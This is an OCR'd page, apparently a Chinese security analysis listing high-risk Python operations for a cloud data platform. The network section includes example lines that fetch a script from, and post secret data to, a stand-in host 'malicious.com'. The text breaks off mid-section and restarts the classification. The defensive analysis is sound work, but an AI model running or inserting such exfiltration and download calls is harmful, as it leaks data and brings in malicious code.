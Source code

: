 #### 3. 总体风险
文件操作类操作的风险在于对文件系统的直接访问。攻击者可能利用这些操作读取敏感信息、篡改系统文件或造成系统不可用。危害范围取决于平台的权限级别和文件系统的访问控制。

---

### 六、网络交互类高危操作
#### 1. 定义
这一类操作涉及与外部网络的交互，可能导致数据泄露、恶意资源下载或外部攻击触发。

#### 2. 具体高危操作及风险分析
- **`urllib.request.urlopen()`**
  - **描述**：发起 HTTP 请求并获取响应。
  - **高危点**：用户可以通过 `urlopen()` 下载恶意资源（如脚本、病毒），或将敏感数据上传到外部服务器。例如，`urlopen('http://malicious.com/script.py').read()`。
  - **潜在危害**：数据泄露、恶意资源引入。
- **`requests.get()` / `requests.post()`**
  - **描述**：通过 HTTP GET 或 POST 请求与外部服务器交互。
  - **高危点**：与 `urlopen()` 类似，用户可能利用这些函数下载恶意资源，或将平台数据泄露到外部服务器。例如，`requests.post('http://malicious.com', data={'secret': sensitive_data})`。
  - **潜在危害**：数据泄露、恶意资源引入。

#### 3. 总体风险
网络交互类操作的风险在于与不受信任的外部资源交互。攻击者可能利用这些操作窃取数据、下载恶意代码或触发外部攻击。这类操作的危害通常与平台的网络访问权限和数据敏感性相关。

---

### 七、用户输入类高危操作
#### 1. 定义
这一类操作涉及直接获取用户输入，可能导致输入未经验证就被用于高危操作。

#### 2. 具体高危操作及风险分析
- **`input()`**
  - **描述**：从用户获取输入字符串。



## 测试列表分类

为了满足您海洋数据云计算平台的安全需求，我将重新整理并扩展高危操作清单，确保其全面性和精确性，同时对高危操作进行合理的分类。以下是我的分析和建议：

### 设计原则
1. **全面性**：覆盖所有可能导致平台安全问题的操作，包括代码执行、系统操作、数据处理、网络交互等。
2. **精确性**：明确每个高危操作的风险点，避免过于宽泛的定义，确保安全策略的针对性。
3. **分类合理性**：将高危操作分为3-5个大类，便于管理和制定对应的安全策略。

### 高危操作分类与清单
我将高危操作分为以下 **4 个大类**，并在每个大类中列出具体的操作及其风险说明：

---

### 1. 代码执行与动态加载类
这一类操作可能导致用户代码直接执行恶意逻辑，或者动态加载不受信任的模块，从而绕过平台的控制。
